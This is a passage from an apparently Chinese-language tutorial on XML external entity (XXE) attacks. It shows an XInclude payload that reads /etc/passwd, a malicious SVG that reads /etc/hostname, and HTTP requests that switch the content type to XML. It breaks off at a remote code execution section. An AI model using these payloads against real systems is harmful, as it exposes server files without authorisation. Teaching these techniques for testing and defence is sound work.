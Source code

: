 ### XInclude 攻击

一些应用程序接收到客户端提交的数据后，在服务器端将其嵌入到 XML 文档中，然后解析该文档，当客户端提交的数据被放入后端 SOAP 请求，并有后端 SOAP 服务处理时，就会出现这种漏洞。

> 在这种情况下，您无法执行经典的 XXE 攻击，因为您无法控制整个 XML 文档，因此无法定义或修改`DOCTYPE`元素。但是，您也许可以`XInclude`改用。`XInclude`是 XML 规范的一部分，它允许从子文档构建 XML 文档。您可以`XInclude`在 XML 文档中的任何数据值中进行攻击，因此可以在您仅控制放置在服务器端 XML 文档中的单个数据项的情况下执行攻击。

要执行`XInclude`攻击，您需要引用`XInclude`命名空间并提供您希望包含的文件的路径。例如：

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### 利用文件上传进行 XXE 攻击

一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用 XML 或包含 XML 子组件。基于 XML 的格式的示例是办公文档格式（如 DOCX）和图像格式（如 SVG）。

例如，应用程序可能允许用户上传图像，并在上传后在服务器上处理或验证这些图像。即使应用程序希望接收 PNG 或 JPEG 等格式，正在使用的图像处理库也可能支持 SVG 图像。由于 SVG 格式使用 XML，攻击者可以提交恶意 SVG 图像，从而达到 XXE 漏洞的隐藏攻击面。

```xml
<!-- SVG 图像 -->
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

### 通过修改内容类型进行 XXE 攻击

大多数 POST 请求使用由 HTML 表单生成的默认内容类型，例如`application/x-www-form-urlencoded`. 一些网站希望接收这种格式的请求，但会容忍其他内容类型，包括 XML

例如，如果一个普通请求包含以下内容：

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

然后您可以提交以下请求，并得到相同的结果：

```http
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

如果应用程序容忍消息正文中包含 XML 的请求，并将正文内容解析为 XML，那么只需将请求重新格式化为使用 XML 格式，您就可以到达隐藏的 XXE 攻击面。

### 远程代码执行

这种情况很少发生，但有些情况下攻击者能够通过XXE执行代码，这主要是由于配置不当/开发内部应用导致的。如果我们足够幸运，并且PHP expect模块被加载到了易受攻击的系统或处理XML的内部应用程序上，那么我们就可以执行如下的命令：
